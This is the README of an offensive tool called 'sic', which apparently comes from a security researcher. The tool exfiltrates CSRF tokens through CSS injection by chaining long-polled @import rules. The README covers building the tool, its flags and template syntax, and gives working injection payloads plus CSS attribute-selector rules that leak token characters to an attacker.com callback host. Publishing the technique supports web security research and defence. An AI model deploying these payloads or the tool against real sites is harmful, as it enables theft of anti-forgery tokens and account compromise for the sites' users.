 # Sequential Import Chaining

Typical CSS injection requires an attacker to load the context a number of times to exfiltrate sensitive tokens from a page. Usually the vector for this is via iframing which isn't always possible, especially if the target is using `x-frame-options: deny` or `x-frame-options: sameorigin`. This can be further complicated if the victim needs to interact with the target to trigger the injection (perhaps due to dynamic behavior on the page).

Sequential import chaining is a technique that enable a quicker, easier, token exfiltration even in the cases where framing isn't possible or the dynamic context is only occasionally realized.

### Blog Post
I wrote a blog post on this. Read about it [here!](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)

## Prerequisites for Attack

This attack only works if the attacker at least one of these: 

* Script tag injection (HTML injection, for example)
* Control of CSS at the top of a style tag.

The first case is probably more likely and will work even if filtered through vanilla DOM Purify.

## Building

1. Install RustUp (https://rustup.rs/ - `curl https://sh.rustup.rs -sSf | sh`)
2. Install the nightly (`rustup install nightly`)
3. Default to nightly (`rustup default nightly`)
4. Build with cargo (`cargo build --release`)

You will find the built binary at `./target/release/sic`

## Usage
`sic` has documentation on the available flags when calling `sic -h` but the following is information for general usage.

* `-p` will set the lower port that `sic` will operate on. By default this is 3000. `sic` will also listen on port `port + 1` (by default 3001) to circumvent a technical limitation in most browsers regarding open connection limits.
* `--ph` sets the hostname that the "polling host" will operate on. This can either be the lower or higher operating port, though it's traditionally the lower port. Defaults to `http://localhost:3000`. This _must_ be different than `--ch`
* `--ch` similar to `--ph` but this sets the "callback host" where tokens are sent. Defaults to `http://localhost:3001`. This _must_ be different than `--ph`.
* `-t` specifies the template file used to generate the token exfiltration payloads.
* `--charset` specifies the set of characters that may exist in the target token. Defaults to alphanumerics (`abc...890`).

A standard usage of this tool may look like the following:
```
./sic -p 3000 --ph "http://localhost:3000" --ch "http://localhost:3001" -t my_template_file
```

And the HTML injection payload you might use would look like:
```
<style>@import url(http://localhost:3000/staging?len=32);</style>
```

The `len` parameter specifies how long the token is. This is necessary for `sic` to generate the appropriate number of `/polling` responses. If unknown, it's safe to use a value higher than the total number of chars in the token.

### Advanced Logs
`sic` will print minimal logs whenever it receives any token information; however, if you want more detailed information advanced logging is supported through an environment variable `RUST_LOG`.

```
RUST_LOG=info ./sic -t my_template_file
```

### Templates
The templating system is very straightforward for `sic`. There are two actual templates (probably better understood as 'placeholders'):
* `{{:token:}}` - This is the current token that we're attempting to test for. This would be the `xyz` in `input[name=csrf][value^=xyz]{...}`
* `{{:callback:}}` - This is the address that you want the browser to reach out to when a token is determined. This will be the callback host (`--ch`). All the information `sic` needs to understand what happened client-side will be in this url.

An example template file might look like this:
```
input[name=csrf][value^={{:token:}}] { background: url({{:callback:}}); }
```

`sic` will automatically generate all of the payloads required for your attack and make sure it's pointing to the right callback urls.

### HTTPS
I didn't bake official HTTPS support into the tool but made it possible to potentially use nginx as a reverse proxy. I haven't validated that this will work or not, but I don't really see a reason why it wouldn't. 

Assuming you have configured nginx to forward port 3000 -> 4000 and 3001 -> 4001 then you might launch the tool as follows:

```
./sic -p 4000 --ph "https://attacker.com:3000" --ch "https://attacker.com:3001" -t my_template_file
```

Note that the ports on `--ph` and `--ch` match up with the ports nginx is serving and not `sic`. 

## Technique Description

For a better story and additional information, please see my blog post on [Sequential Import Chaining here](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b).

The idea behind CSS injection token exfiltration is simple: You need the browser to evaluate your malicious css once, send an outbound request with the next learned token, and repeat. 

Obviously the "repeat" part is normally done using a full frame reload (iframing, or tabs... blah).

However, we don't actually need to reload the frame to get the browser to reevaluate *new* CSS.

Sequential Import Chaining uses 3 easy steps to trick some browser into performing multiple evaluations:

1. Inject an `@import` rule to the staging payload 
2. Staging payload uses `@import` to begin long-polling for malicious payloads
3. Payloads cause browser to call out using `background-img: url(...)` causing the next long-polled `@import` rule to be generated and returned to the browser.

## Example

Here's an example of what these might look like:

### Payload
`<style>@import url(http://attacker.com/staging?len=32);</style>`

### Staging
```
@import url(http://attacker.com/lp?len=0);
@import url(http://attacker.com/lp?len=1);
@import url(http://attacker.com/lp?len=2);
...
@import url(http://attacker.com/lp?len=31); // in the case of a 32 char long token
```

### Long-polled Payload (length 0)
This is a unique, configurable template in `sic` because this part is very context specific to the vulnerable application.
```
input[name=xsrf][value^=a] { background: url(http://attacker.com/exfil?t=a); }
input[name=xsrf][value^=b] { background: url(http://attacker.com/exfil?t=b); }
input[name=xsrf][value^=c] { background: url(http://attacker.com/exfil?t=c); }
...
input[name=xsrf][value^=Z] { background: url(http://attacker.com/exfil?t=Z); }
```

After the browser calls out to `http://attacker.com/exfil?t=<first char of token>`, `sic` records the token, generate the next long-polled payload, and return a response for `http://attacaker.com/lp?len=1`. 

### Long-polled Payload (length 1 - given `s` as first char)
```
input[name=xsrf][value^=sa] { background: url(http://attacker.com/exfil?t=sa); }
input[name=xsrf][value^=sb] { background: url(http://attacker.com/exfil?t=sb); }
input[name=xsrf][value^=sc] { background: url(http://attacker.com/exfil?t=sc); }
...
input[name=xsrf][value^=sZ] { background: url(http://attacker.com/exfil?t=sZ); }
```

This repeats until no more long-polled connections are open.

----

Shoutout to the following hackers for help in one way or another.

* [0xacb](https://twitter.com/0xACB)
* [cache-money](https://twitter.com/itscachemoney)
* [Shubs](https://twitter.com/infosec_au)
* [Sean](https://twitter.com/seanyeoh)
* [Ruby](https://twitter.com/_ruby)
* [vila](https://twitter.com/cgvwzq)
